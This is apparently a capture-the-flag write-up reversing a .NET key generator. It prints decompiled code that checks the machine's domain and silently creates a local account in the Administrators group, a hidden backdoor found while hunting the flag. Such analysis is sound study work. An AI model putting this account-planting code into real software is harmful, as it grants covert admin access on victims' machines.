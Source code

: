 
# Rev
## EPT1911
![Challenge](ept1911_chall.png){: w="500" h="500" }

We are given an executable written in .Net
```console
loevland@hp-envy:~/ctf/ept/rev/ept1911$ file KeyGen.exe
KeyGen.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

Running the file we get an UI where we can input some text, and it will generate a key for us

![Running](running.png){: w="300" h="300" }

Since the executable is .Net we can reverse it with `dnSpy`. We will use the 32-bit version of `dnSpy` since the executable is a PE32 executable.

There are two classes defined in the program: `EPT1911` and `Program`.

The `Program` class contains the following interesting functions:

This function compares our local computer domain with the domain name passed to the function
```cs
public static bool IsMachineInDomain(string domainName){
    bool result;
    try {
        result = string.Equals(Domain.GetComputerDomain().Name, domainName, StringComparison.OrdinalIgnoreCase);
    }
    catch (ActiveDirectoryObjectNotFoundException){
        result = false;
    }
    catch (Exception){
        throw;
    }
    return result;
}
```

This function creates a local user and adds it to the administrators group. Note that the password ends with `!}`, which could be a part of the flag
```cs
public static void CreateLocalUserAndAddToAdminGroup(string user, string pass){
    try{
        using (DirectoryEntry directoryEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer")){
            DirectoryEntry directoryEntry2 = directoryEntry.Children.Add(user, "user");
            directoryEntry2.Invoke("SetPassword", new object[] {
                pass + "!}"
            });
            directoryEntry2.CommitChanges();
            DirectoryEntry directoryEntry3 = directoryEntry.Children.Find("Administrators", "group");
            if (directoryEntry3 != null){
                directoryEntry3.Invoke("Add", new object[] {
                    directoryEntry2.Path
                });
            }
        }
    }
    catch (Exception){
    }
}
```